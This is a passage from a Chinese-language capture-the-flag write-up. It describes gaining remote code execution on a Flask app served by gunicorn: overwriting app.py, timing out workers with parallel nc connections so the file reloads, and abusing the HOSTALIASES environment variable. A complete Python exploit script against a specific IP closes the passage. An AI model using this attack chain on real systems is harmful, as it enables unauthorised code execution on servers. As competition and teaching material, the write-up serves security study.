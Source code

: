 ```python
if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下

```python
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
